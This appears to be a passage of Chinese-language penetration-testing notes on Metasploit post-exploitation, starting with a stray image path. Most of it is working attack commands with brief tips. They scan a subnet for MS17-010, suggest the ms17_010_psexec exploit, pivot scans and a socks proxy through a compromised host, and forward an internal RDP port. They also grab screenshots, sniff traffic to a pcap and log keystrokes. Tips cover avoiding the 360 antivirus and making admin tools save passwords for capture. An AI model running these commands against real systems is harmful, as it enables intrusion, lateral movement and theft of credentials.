 >
> MS17-010
>
> > meterpreter > background 
> >
> > msf exploit(multi/handler) > use auxiliary/scanner/smb/	smb_ms17_010 
> >
> > msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
> >
> > msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
> >
> > msf auxiliary(scanner/smb/smb_ms17_010) > run
>
> 先利用 ``exploit/windows/smb/ms17_010_psexec``，win10 旧版依旧可以，新版设置  smbuser，smbpass 即可
>
> ### Msf 扫描
>
> 经过上面设置路由即可使用以下 scan：
>
> > use auxiliary/scanner/portscan/syn
> >
> > use auxiliary/scanner/portscan/tcp
>
> proxychains 设置 socks4 为以下设置，即可在本地代理扫描
>
> > use auxiliary/server/socks4a
>
> ### Msf 端口转发 portfwd
>
> 将 192.168.1.2.100 内网转发到本地 4443 port，流量大不好用
>
> > portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100
>
> ### Msf 截屏(没被 360 拦没提示，或许有意外收获)
>
> > meterpreter > use espia
> >
> > meterpreter > screengrab
>
> ### Msf 嗅探
>
> > meterpreter > use sniffer
> >
> > meterpreter > sniffer_interfaces
> >
> > meterpreter > sniffer_start 5
> >
> > meterpreter > sniffer_dump 5 /tmp/1.pcap
> >
> > meterpreter > sniffer_stop 5
>
> ### 键盘记录
>
> Msf 键盘记录在 win 不会创建新进程
>
> > meterpreter > keyscan_start 
> >
> > meterpreter > keyscan_dump 
> >
> > meterpreter > keyscan_stop 
>
> Keylogger (tip: 可以把管理工具，如 navicat, putty, SecureCRT, PLSQL 设置记住密码) --redrain ixkeylog
>
> linux>=2.63 推荐 --redrain 